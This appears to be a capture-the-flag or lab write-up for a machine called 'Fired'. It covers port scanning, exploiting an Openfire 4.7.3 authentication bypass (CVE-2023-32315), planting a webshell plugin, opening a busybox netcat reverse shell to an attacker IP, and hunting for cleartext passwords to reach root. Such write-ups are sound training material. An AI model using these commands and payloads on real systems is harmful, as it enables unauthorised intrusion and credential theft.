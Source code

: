 # Fired

So i start my enumeration by scanning for open ports ->

```
nmap -p- 192.168.52.96 --vv
nmap -sCV 192.168.52.96 > nmap.out
```

and i discover the following services:

```
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
9090/tcp open  zeus-admin     syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63
```

On the first service i see an admin console:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Openfire, Version: 4.7.3</p></figcaption></figure>

And the version seems vulnerable to this exploit:

{% embed url="https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT" %}

So i managed to use the exploit that creates credentials to bypass auth:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i looked around for interesting stuff and found this Plugins tab that seemed shady:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after looking it up i found a webshell plugin that i could try to abuse:

{% embed url="https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar" %}

I upload the plugin and navigate to the webshell just like in the poc and i can now execute commands:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

just before getting my revshell i catch the flag:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So here i got stuck for few minutes and started to look at all my shell techniques and couldn't get a reverse shell, and found a `which busybox` command that i never used and it worked i got my shell with:

```
busybox nc 192.168.49.52 4444 -e /bin/sh
```

and i looked into why this one works and the others don't and came to the conclusion that `nc` doesn't work because its version **doesn't support the `-e` option** (for security reasons). However, `busybox nc` works because **BusyBox includes a version of Netcat that still allows `-e`** to execute a shell.

I popped a low interactive shell so i quickly upgraded it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

So i had a hard time on privesc, i tried linpeas, suid and all the usual enumeration, then i tried grepping for passwords with&#x20;

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

I didn' t see much but i found many things related to databases which i hate enumerating and i remembered that in the openfire web instance there was an admin user so i thought that maybe the password would be in cleartext somewhere so i looked around and went into `/var/lib` which is a directory in Linux is used to store **variable state information** for system services and applications and stored **Databases** (e.g., `/var/lib/mysql` for MySQL, `/var/lib/postgresql` for PostgreSQL) so maybe my openfire db was there and indeed it was. I grepped for passwords and found a password which made me able to login as root:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>
